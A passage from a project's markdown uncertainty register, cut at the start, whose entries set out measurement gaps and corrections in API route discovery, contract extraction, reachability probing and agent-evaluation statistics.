004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §6 |
| U-29 | **NEWLY OPENED 2026-08-02 — Path accuracy under router prefixes and computed paths is unmeasured**, and it is the measurement's own largest self-declared hole. **Partially discharged the same day, in the direction this entry feared** | **The computed-path half now has a measured instance rather than a hypothesis, and the instance is worse than the entry expected.** [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §2 found **two real, served operations registered at runtime under a computed prefix** — `POST /a2a/{app}` and `GET /a2a/{app}/.well-known/agent-card.json` — missed by static analysis **and** by the target's own published schema. This entry hedged that there is "positive reason to expect it fails on computed paths rather than merely being untested"; that expectation is now confirmed by observation. **The part that goes beyond what the entry anticipated is that the probe does not rescue them either.** D-18 adopts the published schema as the reachability mechanism, and the schema is generated from the route table's `APIRoute` entries, so runtime-registered routes under a computed prefix are outside it by the same construction that puts them outside S. So this is not a gap a running instance closes — §2.2's gap-fill table said "requires the target running," and that cell is now corrected. **Still open, and the open part is the larger population:** `APIRouter` / `include_router` / `add_api_route` prefix composition, which this target does not use at all, and which is the mechanism most likely to produce *silently corrupted* paths rather than *absent* ones. A corrupted path is the D-17 shape; an absent one is not. The 100% path-accuracy result behind D-14 comes from a repository where **every route is declared directly on the application object with a literal string**: no `APIRouter`, no `include_router`, no `add_api_route`, no f-strings, no module constants, no computed prefixes. Prefix composition is the single most likely source of **silent path corruption** on other FastAPI codebases, and the extractor's regex requires a literal quote immediately after the opening parenthesis, so there is positive reason to expect it fails on computed paths rather than merely being untested. A corrupted path produces a tool that looks correct and 404s at runtime — the same failure shape as U-26, arriving by a different route. This bears directly on P-08, which currently defaults to FastAPI-first. | Cheap and specific: find a FastAPI application that uses `APIRouter` with prefixes, take its machine-generated key the same way (read `app.routes` off the instantiated app), and score path accuracy. Any OpenAPI-publishing FastAPI target gives the key for free. Do this before quoting the 100% path-accuracy figure anywhere. **And do not read finding 010's probe result as covering it:** that finding is explicit that it licenses only a claim about recovering the served subset of *what static analysis proposed*, not about recovering the served surface. | [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md), "What this does NOT license"; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §2 |
| U-32 | **NEWLY OPENED 2026-08-02 — every contract-derivation number we hold comes from the best case that exists, and the honest expectation for an untuned framework is 0.5797, not 0.7681** | **This is a scope limit on D-09's measurement, and the finding states it more strongly than the numbers do.** FastAPI's entire design premise is that the handler signature *is* the interface, and the ground truth is a schema that same framework generates from the same annotations the extractor reads. **A 100% parameter result there is not evidence of a 100% parameter result anywhere else.** Four specific holes. (1) **The five derivation rules were all written after inspecting this repository's failures** — the same discovery process that produced finding 001's verb filter, which lifted precision from 74.6% to essentially 100% on one codebase and removed **zero of 41** false positives on the next (C-12). They are more defensible than that filter, since each corresponds to a documented first-class FastAPI or Pydantic feature rather than a lexical coincidence, but **that is an argument, not evidence.** With all five disabled the validated rate is **40/69 = 0.5797**, and that is the number to carry forward as the expectation on a framework nobody has tuned for. (2) **Frameworks that express contracts outside the signature are unmeasured and are the adversarial case** — Flask with `request.json`, Express with `req.body`, and to varying degrees Django REST Framework, Spring, Rails, and Go `net/http`. On those the derivation validated here would recover nothing. (3) **Dependency injection is effectively untested.** Six parameters were excluded as framework injections and this application uses almost no `Depends()`; on a codebase pushing authentication, pagination, and tenancy through it, a large part of the real input contract lives in the dependency graph and none of it would be recovered. (4) **Request bodies were expanded exactly one level** — a field typed as another model is recorded as `object`, not as its own field list, and recursive expansion is untested with unknown cycle behaviour. | **Measure a non-signature framework before generalizing anything, and prefer that over a second FastAPI target** — the finding is explicit that the adversarial case is more informative and costs no more. Score the same way: machine-generated key, both gate readings, all-rules-disabled as a reported arm rather than a footnote. Until then, quote 0.5797 alongside 0.8696 and 0.7681 whenever the capability is described outside this document. This bounds P-08's FastAPI-first default in the same direction U-29 does. **Extended 2026-08-02 with a second, more extreme instance of the same argument, on a different capability.** [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §1 measured the equivalent ablation for reachability's configuration parser and the all-disabled figure is **0.0000 operations predicted**, not 0.5797. That matters because 0.5797 permitted a reading in which the rules are refinements on an analysis that works without them, and 0.0000 forecloses it: the mechanism set **is** the analysis. So the standing recommendation this entry makes — measure a non-signature framework before generalising anything from FastAPI — now rests on two capabilities rather than one, and the second says the untuned floor can be zero rather than merely low. **A third figure joins the two this entry already asks to be quoted together**, and it belongs to whichever capability is being described: 0.5797 for contracts, 0.0000 for reachability's configuration parser, and *worse than doing nothing, with 0.75 false inclusion* for the naive first pass at that parser (U-38). | [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §5, "What this does NOT license"; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §1; C-12; U-29; U-38 |
| U-33 | **NEWLY OPENED 2026-08-02 — the failure taxonomy constitution Principle I requires is the weakest contract component, and there is no authority to check it against** | **Recorded separately from U-32 because it is a permanent property of the component rather than a limit on one measurement.** Recoverability: **37 of 69 endpoints (53.6%)** have at least one `raise` in the handler body, rising to **49 of 69 (71.0%)** within one call hop, leaving 20 with no known raise site at either depth. Of 66 handler-body raise sites, all 66 are `HTTPException` and **65 carry a literal status code**. Going one hop down changes the taxonomy as well as the coverage, surfacing 42 `ValueError`, 3 `NotImplementedError`, and 2 `TransientError` sites invisible at the handler — **a handler that raises nothing itself is not a handler that cannot fail.** **The part with no fix:** OpenAPI declares response status codes and this application's schema declares exactly `{200, 422}` for 61 operations and `{200}` for 8, because zero of 69 routes pass `responses=` or `status_code=` to a decorator. So the framework's own machine-generated description is *silent about every raise the handler performs*, static analysis is **strictly more informative than the authority**, and there is nothing to score accuracy against. Every exception figure above is recoverability, and no accuracy claim is made or is currently constructible. Traversal has no natural stopping point either: depth is a free parameter, raises inside libraries are uncounted, and reachable raises cannot be distinguished from unreachable ones. **Only 28 of 69 endpoints (40.6%) yielded all three contract components.** | **Emit the exception component with an explicit confidence level attached, per D-17, and never as a bare list.** Emitting a failure taxonomy at 53.6% coverage without saying so is exactly the silent overconfidence Principle IV forbids. **Hardened 2026-08-02 from recommendation to requirement, and this entry is the amendment's clearest beneficiary.** Constitution v1.1.0 (OD-03) requires a derived verifier to be validated against an artifact its own derivation did not produce, **or** marked provisional with its provenance and confidence. The exception component is the case with *no* such artifact — this application's own schema is silent about every raise its handlers perform — so the second branch is not an option the emitter may weigh, it is the only compliant output. Nothing about the measurement changes; what changes is that emitting a bare `raises` list is now merge-blocking. Pick and record a traversal depth rather than leaving it implicit — one hop buys 12 endpoints of coverage and a wider class taxonomy, and the cost of going deeper is unmeasured. For accuracy specifically, the only constructible authority is observation: recorded requests, or an integration test suite that exercises error paths. Whether that is worth building is undecided, and it interacts with the OpenAPI-as-input question E14 owned — **now decided in favour of the schema as an input** (D-18 part 2), which sharpens rather than eases this entry: a target that publishes `responses=` properly would supply some of the taxonomy free, this one does not, and D-18 also records that a schema may be withheld entirely (U-34). So the exception component's authority problem is unchanged by the decision and gains a second way to be absent. | [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §3; `.specify/memory/constitution.md` Principle I enforcement clause; D-09; D-17 |
| U-35 | **NEWLY OPENED 2026-08-02 — environment blindness is a distinct failure class from configuration blindness, and it has no upper bound** | **U-26 was about a parser that cannot read the configuration. This is about a parser that reads it perfectly and is still wrong, which is a worse shape and was not anticipated anywhere.** The configuration that found it has a **byte-identical declared configuration** to one that scores 1.0000; the only difference is that `python-multipart` is unimportable in the environment. Three routes silently do not register — 68 served instead of 71 — and the tuned parser predicts 65 with 62 correct: **precision 0.9538, a margin of 0.0038 over the 0.95 gate, which is less than one operation.** A fourth environment-dependent route would put it at 0.9385 and sink it, **and there is no upper bound on that count.** The fact that decides whether those routes register is not in the source and not in the configuration; it is in the installed package set of the machine the deployment runs on, and no configuration parser reads that because it is not configuration. Optional-dependency guards, feature detection, and platform checks all sit in this class and **none of them is enumerated.** This is the same shape as [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)'s headline arriving by a different route — a derived artifact that is confidently wrong, found only by constructing the adversarial case on purpose — which is why D-17 governs it. | **Non-blocking only because the probe does not have this failure mode**, and D-18 makes the probe primary. It becomes blocking the moment configuration parsing is on a customer path, which is D-18 part 3's population: targets that cannot be run. **Enumerate the environment-dependent guard class before that happens.** One target's count is not a bound, and the enumeration is what turns "0.9538 on one adversarial configuration" into a number with a denominator. Cheap and specific: grep a corpus of applications for optional-import guards, feature detection, and platform checks around route registration, and count. Note the configuration that found this was **post-hoc** — added after results were visible, and labelled so everywhere — so it is evidence that the failure class exists, not a measurement of its frequency. | [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §"The configuration that separates the arms"; D-18 part 3; D-17; U-38 |
| U-36 | **NEWLY OPENED 2026-08-02 — a probe's answer is scoped to the one process the probe reached.** Multi-process, multi-replica, and gateway- or mesh-fronted deployments are entirely unmeasured | **D-18 part 1 makes a probe the primary mechanism, and everything behind it was measured against a single-process `uvicorn` over loopback HTTP.** If replicas differ — mid-rollout, canaried, or configured per shard — the probe describes whichever one answered. If an API gateway, service mesh, or ingress admits a subset of what the application serves, the probe describes the application and the catalogue over-claims by exactly the difference; if it *adds* routes, the catalogue under-claims. Nothing here says whether either generalises, and **this is a plausible production shape rather than an exotic one** — it is arguably the modal shape for the enterprise deployments whose internal endpoints are worth wrapping at all. It also interacts with D-17's fourth requirement in a way that requirement does not yet cover: deployment identity as data assumes a deployment has *one* served set, and a replica set mid-rollout does not. | **Resolve before any claim about production topologies**, and before D-17's deployment-identity field is designed, since the answer decides whether that field names a deployment or a probed process. Cheapest useful version: run two configurations behind one load balancer and probe through it, then probe each directly, and score the three answers against each other. A gateway case needs an allowlist in front of the same application. Neither costs a model call. Until then, quote D-18's reachability numbers as properties of the process probed, never of the deployment. | [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §What this does NOT license; D-18; D-17 |
| U-37 | **NEWLY OPENED 2026-08-02 — the reachability precondition on every emitted tool rests on two Starlette properties, and one of them means the check is not known to be side-effect-free** | **Recorded as one entry rather than two because both defects have the same scope limit and the same resolution: one framework, one router implementation, measure a second.** Both were verified directly against a running instance rather than inferred. **Defect A — the `Allow` header under-reports, silently.** Probing `PUT` on a path that serves `DELETE`, `GET`, `PATCH` and `POST` returns `Allow: GET`, because Starlette reports the methods of the *first* matching route rather than the union across routes sharing a path. Trusting it costs **24–28% of real operations**, dropped with no error and no signal; recall falls to 0.7241 at worst. A smaller variant of the same class: a path under a `StaticFiles` mount answers 405 with **no `Allow` header at all**, because the mount intercepts before the route can report a method mismatch. D-18 part 4 therefore forbids reading the header, and C-14 is the general rule behind that. **Defect B — and this is the one that matters, because it is a safety claim rather than an accuracy one.** A probe designed specifically **not** to invoke handlers **invoked at least two**, because a parameterised route absorbed probes aimed at its literal siblings: `GET` on a path whose `POST` is served matched the sibling `GET /…/{test_name}` with `test_name` bound to the literal segment, the handler executed, and it returned its own 404 — indistinguishable by status code from an unrouted 404. On this application the absorbed handler read a file and did no damage. **Nothing about the method-mismatch design guarantees that**, and a sibling whose handler writes before it validates would have been written to. So the side-effect-freedom of a check D-18 puts in front of **every** emitted tool is *qualified, not established*. **Neither defect transfers as a claim and neither transfers as a reassurance:** a framework that answers 404 for a method mismatch breaks the mechanism outright, and nothing here would have caught that. | **Two separable pieces of work.** For the accuracy half: a body-discrimination fix exists and is verified but unimplemented and unscored — the router's 404 carries `{"detail": "Not Found"}` and the absorbed handler's carries a different body, so the two are distinguishable. That fix is a heuristic on a framework-specific default message, so it belongs behind C-12's rule: not in the product before a second framework confirms it. **Either implement and score it, or decide that the precondition accepts a ~3%-of-operations recall loss and record the decision. Currently neither, which is the worst of the three.** For the safety half, which is where the deadline is: **this becomes blocking the moment the precondition ships against a target with write handlers**, and it wants a design answer rather than a measurement — probe only paths with no parameterised sibling, or gate the probe behind confirmed read-only classification, or accept and disclose. It also has a constitution interaction that is not ours to settle: Principle IV requires every emitted tool to carry an enforced permission tier, and an unclassified probe that can reach an arbitrary sibling handler crosses a tier boundary without a structural gate. See the note under §3.1. ~~Framework generality is measured for free by E15's third configuration.~~ **Measured, and it went four ways at once** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §4, §5). E15 ran three routers rather than one. ① **The unstated fear underneath this entry — a framework answering 404 for a method mismatch, which breaks the mechanism outright — did not materialise on any of the three.** Starlette, Flask/Werkzeug and Django all answer 405. The core assumption holds across three router implementations. ② **Defect A does not transfer and fails in the opposite direction elsewhere**, which is C-14's business now rather than this entry's: Flask *over*-reports by unioning across matching rules. Starlette's under-reporting is also worse than recorded here — the header's correctness is **a function of route registration order**, so it can name a *different route's* methods entirely rather than merely an incomplete set. ③ **Defect B is solved, and the fix this entry asked for turned out to be the wrong fix.** Probing with a verb **no route in the application declares** gives **0 handler invocations across all seven targets** against 13 for the rule specified here, so the body-discrimination heuristic is unnecessary and the "implement it or accept a ~3% recall loss" choice this entry framed is void — the third option was better than both. The residue is middleware, which runs before routing regardless of method and is not removable by probe design; see the constitution note under §3.1. ④ **A worse failure appeared that this entry could not have expressed, and it is now U-40.** | [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §3, §What this does NOT license; [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §4, §5; D-18 part 4; C-14; C-12; U-40; `.specify/memory/constitution.md` Principle IV |
| U-40 | **NEWLY OPENED 2026-08-02 — the probe's safety on a framework whose method dispatch is application code depends on the static extractor failing closed, and the two components were designed independently** | **This is narrower than U-37 and worse, because it has a named trigger and a named framework rather than a scope limit** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §4). Django's URL resolver carries **no method information at all** — `path("both", view)` maps a path to one callable, and method dispatch is application code. A view decorated with `require_http_methods` answers 405 and the mechanism works. **A view that dispatches internally executes its body first**: probing Django's undecorated view with the fabricated verb returned **400 with the handler invoked**. Neither Starlette nor Flask can express this shape, because both default an undecorated route to `GET` only. **The reason it did not appear in the scored run is the dangerous part.** That view never entered the candidate set, because static analysis could not recover its methods either — the AST walk reported it unresolved, so no tool was emitted and the probe never visited it. It had to be reached by a declared adversarial probe *outside* the candidate set to be measured at all. **So the precondition's safety on Django is a property of the extractor's fail-closed behaviour, not of the probe.** An extractor improved to guess `GET, POST` for an undecorated view — an entirely reasonable recall improvement, and the obvious next move on any static-analysis roadmap — would put that view in the candidate set and invoke its handler. **A safety property currently held by one component would be silently removed by an unrelated accuracy improvement in another, and no register entry, decision record, or interface between them says so.** | **Write the coupling down as an interface obligation before either component is worked on**, which costs nothing and is the whole of the mitigation available today: the extractor's method-resolution output must carry whether a method set was *recovered* or *inferred*, and the probe must refuse to probe an inferred one. That is a D-17 provenance field applied to a safety decision rather than to a catalogue field, and it is the second time D-17's shape has turned out to be the answer to a question that was not about metadata. Then measure the population: **how often does a framework route to a callable without declaring methods**, across Django, Rails, Go `net/http`, and Express — all four resolve paths to handlers and leave method dispatch to the handler in at least some idiom, so Django is likely the first instance rather than the only one. Neither costs a model call. Until both are done, treat the probe as safe only on routers that carry method information in the route table. | [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §4; D-18 part 4; D-17; U-37; `.specify/memory/constitution.md` Principle IV |
| U-38 | **NEWLY OPENED 2026-08-02 — configuration parsing may have no shippable partial form: the first-pass version is worse than doing nothing, and the tuned version predicts nothing until all eight of its mechanisms exist** | **Recorded separately from C-12 because C-12 governs whether a rule *transfers* and this governs whether a partial implementation is *net-positive*, which is a different question with a different consequence for a roadmap.** Two measurements bracket it. **The first-pass parser scored worse than the do-nothing baseline at all eight configurations** — 0.3099 against 0.3188 at the worst case, 0.8732 against 0.9710 at the best, and lower at every one in between — with a false-inclusion rate over the null set of **0.75**: nine of twelve null operations, every one a real route belonging to a *different application in the same repository*, predicted as served by the deployment under test. That is the error class finding 004 named scoping-to-the-source-tree as the durable lever against, reappearing **inside** a source tree, because a guard scan knows which predicate gates a declaration and not which application the declaration belongs to. **And the tuned parser predicts 0.0000 operations with all eight mechanisms disabled, or with either `M1_class_dispatch` or `M2_kwarg_flow` alone disabled.** The measured points on that curve are only its ends and one step in from one end: eight active (precision and recall 1.0000), seven active in each of the six cases that do not collapse (precision still 1.0000, recall 0.9385–1.0000 — it degrades in recall rather than in precision, which is a genuinely good structural property, since fail-closed turns a mechanism it lacks into a dropped operation rather than a wrong one), zero active, and the two single-mechanism removals that collapse to zero outright. **Nothing between one and seven active mechanisms was measured at all**, so there is no evidence that a two- or four- or six-mechanism parser sits anywhere on the good part of that curve rather than near its floor — and the two data points nearest the floor say a partial parser can be worth less than nothing. **The practical consequence is a roadmap constraint, and it is the opposite of the obvious plan.** "Start with basic configuration parsing and improve it" is the natural way to build D-18 part 3, and the only evidence available says the basic version makes the number go down while appearing to address the problem — which is worse than not shipping it, because a catalogue that over-claims by 0.75 on foreign routes looks like a working catalogue. | **Do not ship a partial configuration parser, and do not price part 3 as incremental.** Quote **both** untuned figures wherever the capability is described: 0.0000 for the ablated tuned parser and *worse than baseline with 0.75 false inclusion* for the naive one. They answer different questions and neither substitutes for the other. What would resolve this: find the minimal mechanism set that beats the do-nothing baseline on a second framework, and check whether one exists at all below the full set. If none does, part 3 is genuinely all-or-nothing and should be scheduled as one item rather than as a sequence — which is a scheduling fact worth knowing before it is scheduled. The ablation harness already exists, so the marginal cost is one target. **A cheaper mitigation applies regardless and should be adopted now:** scope any guard scan to declarations reachable from the application object under analysis, which is the check that would have removed nine of the twelve false inclusions. **Corrected 2026-08-02: two single-mechanism removals collapse the parser, not one.** This entry said "with all eight mechanisms disabled, or with `M1_class_dispatch` alone disabled." `off-M2_kwarg_flow` predicts **2 operations of 324 at precision 0.0000**, which is a collapse by the same reading, and it is in finding 010's own committed ablation table — only its prose named `M1` alone ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2). **This makes the entry's argument stronger, not weaker.** The measured curve now has *two* of eight single removals landing at zero rather than one, so the unmeasured middle between one and seven active mechanisms is a worse bet than this entry already judged it: a quarter of the single-mechanism ablations tested are catastrophic, and there is still no evidence that any partial set sits on the good part of the curve. | [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §1; [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2; C-12; D-18 part 3; U-35 |
| U-42 | **NEWLY OPENED 2026-08-02 — every number in the ceiling test is single-attempt, so both of its ties are judgments rather than measurements, and there is no noise floor anywhere in the experiment** | **Recorded separately from U-41 because that entry is about one observation being unreplicated and this is about *all* of them being unreplicated, which has a different consequence: it governs how the surviving cost claim may be quoted rather than whether the safety claim may be made.** [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) states it against itself in its own threats section. **The two ties are the exposed ones.** 27/27 against 26/27 and 9/10 against 10/10 are called ties on the reasonable but *unmeasured* assumption that a 1-in-27 and a 1-in-10 gap sit inside noise; with one attempt per task there is no variance estimate that could argue either way, and the pre-registration's rule that a tie is reported as a tie is what makes this the honest call rather than a convenient one. **The per-record result is thinner still: a 2-versus-4 split on n = 4**, where the finding is explicit that the *pattern* carries — exhaustion when no tool fits — and the ratio does not. **The cost figures are the robust part and even they have a scope limit**: the direction never reversed in any family, but the magnitudes depend on a budget configuration amended three times, so 5.06×, ~~2.8×~~ **2.20×** and 9.3× are portable as *a large advantage that replicated* and not as numbers. **Annotated 2026-08-03, and this entry is where the consequence lands: a recomputation from the unchanged committed artifacts moved the join figure from 2.8× to 2.20×, and surfaced three defects in the comparison that this entry had not named.** (1) The join magnitude is set almost entirely by `R4.001` — removing it takes the ratio to **4.20×**, a 91% shift on one task of ten — and that task succeeds only under the OD-04 raise, consuming **94% of the raised 300,000-token cap**, so the comparison sits about one turn from being budget-bound. (2) The join ratio ranges over **2.17×–2.73×** depending on which of two attempts on the three re-measured tasks is authoritative. (3) **The lookup comparison is cross-run**: its tool arm comes from the `160705-recalibration` run (fingerprint `35c8ef293cf0611c`, 20 turns / 150,000 tokens) and its shell arm from `173614-baseline-lookup-R1R2` (fingerprint `f9abf1d35e94e32e`, 120 turns / 900,000 tokens), which the harness's own rule forbids pooling, and whose budget asymmetry is therefore **6× rather than the 3× amendment ~~A1~~ A1.1 committed to** *(attribution corrected 2026-08-03 — **wrong, not narrowed**: A1.1 is the amendment that raised Arm B from 1.5× to 3× of Arm A, and **A3.1** under OD-04 then doubled both arms while preserving that 3× ratio, which is the pair `config.json` carries and hashes into the fingerprint. Reading A1 as operative points the repair at the wrong arm — it was the tool arm that was stale, not the baseline that was over-allowanced, and A1.1's purpose is that the control must never lose on headroom;* [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) *§Which arm was stale)*. Neither arm came near binding, so no tie is an artifact of it — but *this* is what "not portable as numbers" concretely means, and it is stronger evidence for the entry than the budget-amendment argument it was resting on. **Two confounds sit underneath all of it and neither is a sampling problem.** One model and one target application, so nothing in E7 separates properties of curated tool surfaces from properties of Claude Sonnet 4.5 against Mealie. And **the same person authored both the tasks and the tools** — enforced for the one added tool by a pre-registered task-blind rule and checkable file timestamps, which is better than nothing and weaker than independent authorship, and which OD-04 had already measured biting at 93–96% in calibration ([finding 008](../specs/001-discovery-validation/findings/008-ceiling-test-calibration.md)). **AMENDED 2026-08-03 in three places by findings 013 and 014, and the entry's headline claim is now partly *wrong* rather than narrowed.** **(a) "There is no noise floor anywhere in the experiment" is superseded: one has been measured, and it is a lower bound rather than the floor.** [Finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) reports a within-session floor of **8.109%** paired and **14.620%** unpaired at n = 5, scaling to **6.98%** and **12.58%** as 2× bars on a 27-task pooled ratio. But [11](./11-validation-plan.md) §9.3 defines the floor as the difference between **two independent full passes** — a *between-pass* quantity — and what was measured is a *within-session* one, which U-46 shows is the smaller component by a wide margin. **So every one of those four numbers is a lower bound on the quantity §9.3 asks for, and anyone applying the 2× rule to a cross-session figure is applying it against a bar known to be too low.** §9.3 now carries that record. **(b) The two ties remain ties, and now for a stated reason rather than an assumed one.** They were called ties on the reasonable but unmeasured assumption that a 1-in-27 and a 1-in-10 gap sit inside noise; a floor now exists to call them against, it is a lower bound, and both gaps sit inside even the lower bound. Nothing about the calls changes; what changes is that they stop being judgements. **(c) A fourth defect in the comparison, of the same kind as defect (3) and not previously recorded anywhere.** Defect (3) names the *lookup* comparison as cross-run. **The per-record 9.3× is cross-run too, and nobody had said so**: its tool arm comes from `20260802T173226-reprobe-perrecord-v2` (fingerprint `f9abf1d35e94e32e`) and its shell arm from `20260802T164929-bias-probe-perrecord` (fingerprint `3c10a64b0ffe7749`), so it violates the same no-pooling rule, at n = 2, on a post-hoc-selected subset, with the between-session component of U-46 sitting underneath it. It is the least defensible number in OD-07's range and it was being quoted as the most impressive one. *(The join figure pools two fingerprints as well — `15421caecdc88722` and `212188ef8ecdb714` — but symmetrically: every task's arm-to-arm contrast sits inside one run, so the pooling affects the task mix and not the comparison. Recorded so the difference between the two situations is on the record rather than rediscovered.)* **The consequence for how the range may be quoted is worked out in full in the OWNER FLAG under §3.1.** | **Non-blocking because the decision it would inform has already been made and made in the conservative direction** — OD-07 reads both ties as ties and drops the capability claim, which is what a wider confidence interval would also have counselled. It becomes blocking the moment anyone wants to quote a *win*. **Three attempts on the tasks that discriminate is the finding's own recommendation and it is cheap**, and it should be bundled with U-41's mechanism probe rather than run separately, since both want budget on the same harness. **Do not spend it on the saturated families**: a metric pinned at 1.00 on 27 of 41 tasks against a 0.25–0.85 calibration band gets more precise and no more informative, which is exactly why the $120 battery was not run. The variance worth measuring is on the per-record family and on whatever tasks a rebuilt battery finds that both arms do not solve trivially. **Until then, report every E7 figure with its attempt count attached**, per the spec's own edge case on model nondeterminism. | [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) §Threats to validity, §Whether the full battery is still worth running; [finding 008](../specs/001-discovery-validation/findings/008-ceiling-test-calibration.md); **[finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md); [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md); [11](./11-validation-plan.md) §9.3**; `plan.md` OD-04, OD-07; U-41; **U-45; U-46**; D-19 |
| U-49 | **NEWLY OPENED 2026-08-03 — a false-alarm denominator that counts records the detector declined is inflated by cases that could never have contributed to its numerator, and the inflation is invisible in the figure.** [finding 018](../specs/001-discovery-validation/findings/018-verifier-false-alarm-attested-denominator.md): **45 of the 220 clean positives** in E8's headline false-alarm figure are records the postcondition arm returned `unverifiable` on — 40 of them the entire unattested class — so every one narrows the confidence interval while supplying no evidence either way. `0 of 220` is a true statement and **is not a rate**; the rate over records actually compared is 0 of 175 | **This is a reporting defect rather than a measurement error, which is what makes it durable: nothing upstream of it is wrong.** The census reproduces exactly, the exclusion of the 6 stale positives is sound, and the narrow attested figure is separately clean at 0 of 96 with 93 compared — so the number was never being carried by the padding. What the padding does is buy a tighter interval than the evidence supports, and it generalises to **any evaluation whose detector may decline**: an abstaining verifier, a judge that returns `uncertain`, a classifier with a reject option, a probe that skips an unroutable target. **Read it beside C-19 and note that they are opposite defects with the same symptom.** C-19 is a denominator that *excludes* the failure — the schema arm's perfect `FPR_c1` on a sample that never drew its two false alarms. This is a denominator that *pads itself* with cases the instrument could not fire on. Both make a clean rate read as stronger evidence than it is, and neither is visible without re-running the instrument and counting refusals. **A second rule falls out of the same re-scoring and belongs with this one:** a detection numerator and a false-alarm denominator drawn from **different populations** may not be written as one measurement. E8's headline sentence paired detection over the eligible negatives with false alarms over the clean positives; on the attested population both sides share one denominator and read **2 of 2 false successes flagged, 0 false alarms on 96 positives**, the detection count falling from 10 to 2. **A SECOND INSTANCE, 2026-08-04, and it is the first outside an evaluation harness — it is in this project's own output.** [finding 019](../specs/002-spec-aware-agent-runtime/findings/019-phase-2-defect-density.md), feature 002's first self-measurement, counts Phase 2's defects against the lines Phase 2 wrote and carries the same pairing: **the numerator is drawn from everything the phase touched and the denominator counts only the source files it created**, so two of five defects sat outside the population the headline rate was quoted over. The finding diagnosed it in itself, by asking the question this entry tells a reader to ask, **one day after this entry was opened**, and restated the rate over four labelled denominators in the form prescribed below. **So the rule generalises past evaluation instruments to any internal metric, which this entry did not previously claim and now does.** **And the second instance extends the rule rather than only confirming it, which is the reason it is annotated here rather than cited elsewhere.** [finding 020](../specs/002-spec-aware-agent-runtime/findings/020-phase-2-defect-density-adjudicated.md) re-derived the same count against a population rule asking which commit *introduced* each defect rather than which one fixed it, and **the two defects sitting outside the denominator turned out to be the same two sitting outside the *phase*** — Phase 1's production, repaired by Phase 2 and credited to it. **A numerator-attribution error can masquerade as a denominator error, and widening the denominator makes it worse rather than better: it dilutes a correct numerator to accommodate members that should have been removed.** That is a step *before* step (1) below and it is now part of the rule: **establish that the numerator's members belong to the population before restating the denominator to fit them.** Widening the denominator is the reflex this entry created, and where the mismatch is attribution it is the wrong first move. **A THIRD INSTANCE, 2026-08-04, and it is the first in a published research document rather than in an evaluation harness or a self-measurement.** [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md): [`15`](./15-nvidia-oo-agents.md) and U-50 in this document both carried *"**21 of the 70** arm-B commands that write a file immediately `cat` the whole file back"*, where the numerator was computed over commands that spilled **command output** while the denominator was padded with **25 heredoc script writes** — `cat > /work/x.py << 'EOF'`, the model typing a file — which could not have entered it, there being no captured output to read back. The honest form is **21 of 45**. **This instance adds a direction the first two did not, and that direction is what makes the defect hard to catch.** In C-19 and in [finding 019](../specs/002-spec-aware-agent-runtime/findings/019-phase-2-defect-density.md) the padding *flattered* the figure, so correcting it made the number worse and the incentive to check ran against the author. Here the padding **understated** the rate — the corrected 47% is less flattering than the printed 30%, and the correction makes the argument the document was advancing *stronger*. **So arithmetic that reproduces to the digit and a conclusion that improves under correction are both fully compatible with a defective population, and neither is evidence that the population is sound.** Step (0) applies whichever way the error leans, and the trigger is structural — a numerator and a denominator named by different predicates — not directional. **A fourth problem travels with the same figures and is a different defect, named here because a reader will meet them together and may file it under this entry:** the denominator 109 pools **seven harness fingerprints**, a pooling `runner.py`'s own docstring forbids, and per-family spill rates span 19% to 100%, so the pooled rate characterises no published cost multiplier. That is a **pooling** error, not a population-mismatch error, and the two need separate remedies — this entry's rule would not have caught it | **Report the compared count beside the denominator on every false-alarm rate, and state the population on each side of any paired figure.** No code change is required and none would help — this is a rule about what a document may print. Three steps, none costing a model call. **(1)** Wherever a rate is quoted, quote the count of records the instrument actually returned a verdict on; where the two differ, the smaller one is the rate and the larger one is a coverage statement. **(2)** Where a numerator and a denominator come from different populations, either restate both over one population or label each explicitly — the corpus's own labelling tables at §3.2 here and [11](./11-validation-plan.md) §8 are the worked form. **(3)** Carry the refusal rate as its own claim rather than folding it into the rate it would otherwise inflate; `UNV_c2` is already reported at 10.7% on the 75-record scoring set and is 20.5% on the pooled clean positives, and finding 018 explicitly does not ask whether any of the 45 *should* have been comparable, which is a separate and unmeasured question about coverage. **Non-blocking because the figure it corrects survives the correction** — but it becomes binding on the production specification's drift and verifier measurements, which are the next false-alarm rates this project will publish | [finding 018](../specs/001-discovery-validation/findings/018-verifier-false-alarm-attested-denominator.md); [finding 017](../specs/001-discovery-validation/findings/017-evaluation-contemporaneity.md) §S1; [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md); **[finding 019](../specs/002-spec-aware-agent-runtime/findings/019-phase-2-defect-density.md)**; **[finding 020](../specs/002-spec-aware-agent-runtime/findings/020-phase-2-defect-density-adjudicated.md)**; C-19; **U-51**; §3.2; [11](./11-validation-plan.md) §8; `.cursor/skills/experiment-design/SKILL.md` Rule 7 |
